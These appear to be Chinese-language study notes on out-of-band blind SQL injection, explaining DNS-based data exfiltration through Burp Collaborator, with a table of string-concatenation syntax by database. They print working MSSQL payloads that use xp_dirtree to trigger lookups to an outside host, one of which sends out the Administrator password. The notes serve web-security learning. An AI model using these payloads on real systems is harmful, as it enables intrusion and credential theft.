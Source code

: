 
在這種情況下
- 利用 blind SQL injection 觸發與外部網路的互動，跟你所控制的系統來互動
- 這些可以有條件地觸發，取決於 injection 的條件，以一次推斷出資訊
- 更強大的是，資料可以直接在網路互動本身中被滲出


各種網路協議都可用於此目的
- 但通常最有效的是 DNS
- 因為非常多的 production 環境網路允許 DNS 查詢，因為它們對 production 的正常運行至關重要

使用 out-of-band 最容易的方法是用 [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- Burp Suite Professional 內建
- 這是個提供各種網路服務（包括DNS）的 server，並允許你檢測到網路互動何時發生


在不同的 DB 上觸發 DNS 查詢的方法大不相同
- Microsoft SQL Server 上，像下面這樣的輸入可以用來引起對一個指定 domain 的 DNS 查詢
- 這將導致 DB 對 `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net` domain 進行查詢

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

可以使用 Burp Collaborator 產生一個專屬的 `subdomain`
- 並輪詢 Collaborator server 以確認何時發生任何 DNS 查詢(DNS lookups)
- 在確認了觸發 out-of-band interactions 後，你就可以使用 out-of-band channel 從有漏洞的 App 中滲出資料了。比如說：

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```


該輸入讀取 Administrator 的 password
- 附加一個獨特的 Collaborator subdomain，並觸發 DNS lookup
- 這將導致像下面這樣的 DNS lookup，使你能夠查看捕獲的密碼

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST)
- 是檢測和利用 blind SQL injection 的一種極其強大的方式
- 因為成功的可能性很大，而且能夠在帶外渠道中直接滲出資料


---------------

## 字串連接
可以將多個字串串聯起來，組成單一的字串

|||
| :--- | :--- |
| Oracle | 'foo'||'bar' |
| Microsoft | 'foo'+'bar' |
| PostgreSQL | 'foo'||'bar' |
| MySQL | 'foo' 'bar' [Note the space between the two strings], CONCAT('foo','bar') |
